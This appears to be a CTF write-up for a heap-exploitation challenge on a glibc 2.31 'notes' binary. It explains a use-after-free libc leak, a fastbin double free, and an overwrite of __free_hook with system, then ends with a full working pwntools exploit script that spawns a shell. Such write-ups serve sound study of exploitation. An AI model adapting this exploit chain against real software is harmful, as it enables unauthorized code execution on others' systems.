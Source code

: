 ## Level: Medium

### Challenge
```
TLDR: use UAF to leak an address in unsorted bin arena, get allacotions on fastbin and perform a fastbin dup attack to overwrite __free_hook with system("/bin/sh")
```

![menu](https://github.com/user-attachments/assets/80649d50-4fe8-4ef2-b583-93bc2d9f9a58)

Challenge menu. 

![notecheck](https://github.com/user-attachments/assets/a9b4becb-f758-4ac1-b05a-4aae3e0b8a43)

Before we begin, there is a check for number of notes which is essentially how many times we can malloc. To get infitine number of allocations send a negative number when asked. 

### Checksec

![checksec](https://github.com/user-attachments/assets/d57bf470-07f8-406d-bad1-40f7bf3e4d62)

### Approach

```
1 - Fill a bin in tcache to get an allocation on unsorted bin
2 - UAF to leak the address in unsorted bin arena
```

We'll do this by allocating 8 chunks in a way that when free'd, 7 of them will go into the same tcache bin and the last one will go into unsorted bin. 

How do we know that we need 7 allocations? From the source code of glibc 2.31:

![7](https://github.com/user-attachments/assets/30db5d21-8b56-40fa-b0c2-0dfb3b1c1d13)

link: https://elixir.bootlin.com/glibc/glibc-2.31/source/malloc/malloc.c#L323

![unsorted](https://github.com/user-attachments/assets/fb594473-505b-48c9-a7db-30922bac2200)

Now we just need to leak it by simpy using `3. View notes` option with note id of our unsorted bin allocation. (UAF)

```
3 - Get allocations on fastbin by filling tcache sames size count again
4 - Do the double free trick in fastbin to get 2 malloc with same address
```
The reason we're doing this in fastbin instead of tcache is because we don't have a way to corrupt `key`, the double free protection mechanism in tcache. Fastbin doesn't have `key` protection and can be tricked to get a double free. 

```
  # The trick 
  free(a)
  free(b)
  free(a)
```

![sameadr](https://github.com/user-attachments/assets/07d6beb3-88eb-490f-a148-6a5bb6f87511)

```
5 - Empty tcache line by mallocing 7 times (0x60)
6 - Overwrite next pointer with __free_hook
```

![freehok](https://github.com/user-attachments/assets/73efc40b-5b9d-4e9c-9219-c6e9c7e6fa27)

__free_hook pointer is 0 by default but when set, the address that hook is pointing to is being called instead of default GLIBC free functionality. This is used for debugging and tracking. 

With knowing that all we have to do is get that allocation into head of the tcache list so when we malloc we can read into free_hook's pointer and change it to an address in libc.

```
7 - Malloc twice
```

![headoflist](https://github.com/user-attachments/assets/675665c0-b5f1-47b8-a722-68ca42f2f805)

All good.

```
8 - Malloc to start reading into the address __free_hook points to and overwrite it with "system"
```

![freessyt](https://github.com/user-attachments/assets/1e712020-c651-456a-a623-9c0323b5eb3d)

```
9 - Malloc again to write "/bin/sh" when asked for content (for rdi)
10 - Free the allocation with content "/bin/sh" and enjoy your shell :)
```

![flag](https://github.com/user-attachments/assets/27bd8bc8-7ca4-4dcc-a8c9-bb07dc82c57f)

Thanks for the author for this cool challenge! As always, following sources helped me a lot through this:

nobodyisnobody's write up: https://github.com/nobodyisnobody/write-ups/blob/main/justCTF.2022/pwn/notes/working.exploit.py
double free on fastbin: https://book.hacktricks.xyz/binary-exploitation/libc-heap/double-free
malloc hooks: https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/#malloc-hooks



### Full Exploit
```
#!/usr/bin/env python3

from pwn import *

'''
p = gdb.debug("./notes_patched", gdbscript="""
    continue
""")
'''

# set follow-fork-mode child

p = process("./notes_patched")

# unlimited notes
p.recvuntil(b"to use? (0-10): ")
p.sendline(b"-1")

# allocate 9 chunks
for i in range(9):
    p.recvuntil(b">")
    p.sendline("1")
    p.recvuntil(b"size: ")
    p.sendline("130")
    p.recvuntil(b"content: ")
    p.sendline()

# free 8 chunks, so 7 of them will fill the tcache. the last one goes into unsorted bin
for i in range(8):
    p.recvuntil(b">")
    p.sendline("2")
    p.recvuntil(b"note id: ")
    p.sendline(f"{i}")

# leak unsorted main_arena addr
p.recvuntil(b">")
p.sendline("3")
p.recvuntil(b"note id: ")
p.sendline("7")

# calculate offsets
leak = p.recvline().strip()
leak = int.from_bytes(leak, 'little')
print("unsorted bin leak: " + hex(leak))

libc_base = leak - 2018272
print("LIBC_BASE: " + hex(libc_base))

system = libc_base + 336528
print("SYSTEM: " + hex(system))

# FASTBIN DUP attack
# allocate 10 chunks 
for i in range(10):
    p.recvuntil(b">")
    p.sendline("1")
    p.recvuntil(b"size: ")
    p.sendline("60")
    p.recvuntil(b"content: ")
    p.sendline(b"test")


# free 7 chunks to fill tcache
for i in range(8):
    p.recvuntil(b">")
    p.sendline("2")
    p.recvuntil(b"note id: ")
    i = i + 9
    p.sendline(f"{i}")

# get a double free on fastbin
p.recvuntil(b">")
p.sendline("2")
p.recvuntil(b"note id: ")
p.sendline("17")

p.recvuntil(b">")
p.sendline("2")
p.recvuntil(b"note id: ")
p.sendline("18")

p.recvuntil(b">")
p.sendline("2")
p.recvuntil(b"note id: ")
p.sendline("17")

# clear tcache(0x60) list
# get them fastbins to tcache
for i in range(7):
    p.recvuntil(b">")
    p.sendline("1")
    p.recvuntil(b"size: ")
    p.sendline("60")
    p.recvuntil(b"content: ")
    p.sendline()

# overwrite next pointer with __free_hook
free_hook = libc_base + 2027080
print("free_hook: " + hex(free_hook))
payload = p64(free_hook)

p.recvuntil(b">")
p.sendline("1")
p.recvuntil(b"size: ")
p.sendline("60")
p.recvuntil(b"content: ")
p.sendline(payload)

# malloc 2 times to get the allocation head of the list 
payload = b"BBBBBBBB"
p.recvuntil(b">")
p.sendline("1")
p.recvuntil(b"size: ")
p.sendline("60")
p.recvuntil(b"content: ")
p.sendline(payload)


payload = b"CCCCCCCC"
p.recvuntil(b">")
p.sendline("1")
p.recvuntil(b"size: ")
p.sendline("60")
p.recvuntil(b"content: ")
p.sendline(payload)

# overwrite the address __free_hook pointing with system
payload = p64(system)
payload += b"B" * 8

p.recvuntil(b">")
p.sendline("1")
p.recvuntil(b"size: ")
p.sendline("60")
p.recvuntil(b"content: ")
p.sendline(payload)

# malloc again to pass "/bin/sh" 
payload = "/bin/sh"
p.recvuntil(b">")
p.sendline("1")
p.recvuntil(b"size: ")
p.sendline("60")
p.recvuntil(b"content: ")
p.sendline(payload)

# free the allocation with "/bin/sh" to call "system('/bin/sh')"
# enjoy your shell >.>
p.recvuntil(b">")
p.sendline("2")
p.recvuntil(b"note id: ")
p.sendline("30")

p.interactive()

```


